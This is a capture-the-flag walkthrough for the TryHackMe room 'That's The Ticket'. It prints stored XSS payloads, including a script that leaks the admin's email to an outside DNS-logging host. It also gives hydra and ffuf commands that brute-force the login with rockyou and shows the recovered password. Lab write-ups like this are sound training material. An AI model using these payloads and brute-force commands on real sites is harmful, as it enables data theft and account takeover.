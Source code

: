 ```yaml
---
date: 2025-02-10
categories: [CTF, THM]
title: "THM - That's The Ticket"
tags: ['hydra', 'ffuf', 'nmap', 'privilege escalation', 'rce', 'xss']

description: "That's The Ticket - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - That's The Ticket

NMAP

![image1](../resources/59b71bff8cea4b2c8d91bf4ce57eed3c.png)
 
- Visit website:
Register an account

- Inspecting the message field:

![image2](../resources/12ab7561f7d54f75b03c89d6564e4636.png)

- We can try XSS:
(Close off the existing textarea tag first)

```bash
</textarea> <script>alert(1)</Script> 

```
or use prompt(1) instead


![image3](../resources/113c81c49dd64c40bd8894c342b46aae.png)

- It's vulnerable

- The cookies are set as HttpOnly and could not be extracted by XSS directly

![image4](../resources/376d11080e20470585cf8474553ea53d.png)

- Room hint:

![image5](../resources/87aab15161f949da98674f2f057ca08f.png)


![image6](../resources/87923bcc9a264223a3afe3baeb009864.png)

- Using the XSS vulnerability, do a call back to the DNS logger (above)
```javascript
</textarea> <img src="http://079a105aecaee7a7a858eca97499a96e.log.tryhackme.tech">

```
- Received 4 hits (3 from us and once from the server - maybe admin)


![image7](../resources/766f4dcc91084210ac47ae6e45a4b8b0.png)

- Get Admin's email:

![image8](../resources/351e6e93882347dda4d8ab127b3faefb.png)

```
</textarea>
<script>
    var email_first = document.getElementById("email").innerHTML.split("@")[0];
    var email_second = document.getElementById("email").innerHTML.split("@")[1];
    var href = "http://localhost." + email_first + "." + email_second + ".40a18b725233ea050562beb6ceaef55d.log.tryhackme.tech/test";
    new Image().src = href;
</script>

```

![image9](../resources/3d86e79e8f894e749ec60caa5c146c74.png)

Don't need subdomain in there really (localhost) - still works


![image10](../resources/41cfa3cce05a4e879e3cf35ad675c754.png)

- Got admin email:
**adminaccount@itsupport.thm**

- Bruteforce the login site:
```bash
hydra -l adminaccount@itsupport.thm -P /usr/share/wordlists/rockyou.txt 10.10.41.5 http-post-form "/login:email=adminaccount@itsupport.thm&password=^PASS^:Invalid"

ffuf -w /usr/share/wordlists/rockyou.txt -d "email=adminaccount@itsupport.thm&password=FUZZ" -u http://10.10.190.207/login -fw 475 -H "Content-Type: application/x-www-form-urlencoded"

```
**<u>Another way:</u>**

Clusterbomb - Save POST request from Burp and edit the parameters

```bash
ffuf -request post.txt -request-proto http -mode clusterbomb -w user.txt:UFUZZ -w /usr/share/wordlists/rockyou.txt:PFUZZ -fc 302

```

![image11](../resources/150619e150ac46e891d9019105a8d2f6.png)

**123123**

- Log in with admin:

![image12](../resources/c406ef06134546a4b16cbf57891bd4c6.png)


![image13](../resources/61fb5c9ca2a343c68516b8f576ea5cc6.png)